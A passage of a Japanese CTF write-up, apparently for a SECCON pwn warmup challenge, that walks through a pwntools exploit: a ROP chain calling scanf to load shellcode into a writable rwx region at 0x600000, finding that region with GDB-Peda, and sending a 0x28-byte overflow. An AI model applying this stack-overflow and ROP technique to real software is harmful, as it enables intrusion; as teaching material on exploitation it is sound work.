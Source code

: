 いろいろな処理を自動でやってくれますが、それゆえ処理がブラックボックスになったりして基礎の理解がおろそかになりがちです。
普段はなるべくこれを使わずに練習しつつ、本質的な理解の努力をなるべくしていくのが望ましいです。

```a.py
s = remote("pwn-neko.chal.seccon.jp", 9001)
```
**remote**でサーバーとやり取りします(アドレス,ポート番号)。
```a.py
elf = ELF('/path/to/chall') 
context.binary = elf 
```
**ELF**で実行ファイル内の様々な値を自動的にそのバイナリに適したものにしてくれます。
()内には、自分でダウンロードした問題バイナリのパスを入力しましょう。
サーバー側の問題バイナリを自動で参照するのはさすがにできないので...

```a.py
rop = ROP(elf)
```
**ROP(Return-oriented programming)**
...スタックオーバーフローから関数の呼び出しなどを行い、目的の処理を実行する手法。
ROP(実行ファイル)でバイナリの中を検索し、自動でROPまでの経路を構築する処理を行ってくれる。

これによりscanfを実行した後に再びmainに戻り、アドレスの変化(後述)とreturn前にstdoutとstderrが閉じられていて出力ができないという2点を回避。
```a.py
rop.call(0x4005c0, [next(elf.search(b"%s")), 0x600000])
rop.call(0x600000)

```
**rop.call**で、main戻った後に行う処理を後付けする(デフォルトはmainに戻るのみ)。

最初の行でROPでscanf(“%s”, 任意のメモリアドレス) を呼び、どこか読み書き可能な場所にシェルコード(後述)を読み込む(scanf("%s", 0x600000)と同義の処理)。

次の行で、埋め込んだシェルコードを実行。

### シェルコードを埋め込む場所の探し方

その場所は
- **セキュリティ機構ASLR(stdioで読み込んで使うような関数がまとまった共有ライブラリなどのアドレスを毎回シャッフルして安全性を高めるOSの仕組み)** の影響を受けない
- なおかつ書き込みOKな場所

がよろしい。


1. デバッガ GDB-Peda でバイナリを開く。
2. disas mainで処理一覧を表示し、入力が受け付けられる部分(gets,scanf等)を見つける。
![](https://i.imgur.com/Xrx89gH.png)
3. 見つけたらb *[アドレス]でブレークポイントを設置。
1. rで実行、ブレークポイントで処理が止まるのを待つ。
1. ある程度メモリにプログラムが読まれた段階でデバッガのvmmapで様子を見る。![](https://i.imgur.com/yCDPgQM.png)

1. 0x600000はlibc(共有ライブラリ)以前、かつパーミッションはrwxpと全部そろってる。
よって上記の条件に該当するアドレスは**0x600000**だと判明!!

---

```a.py
s.sendlineafter(
  "Welcome to Pwn Warmup!\n",
  b"a"*0x28+rop.chain())
```
接続して特定のメッセージが表示された後に、()内の処理を実行するという意。
(問題サーバーにアクセスするとわかるが、**Welcome to Pwn Warmup!**　とでて入力を受け付ける)
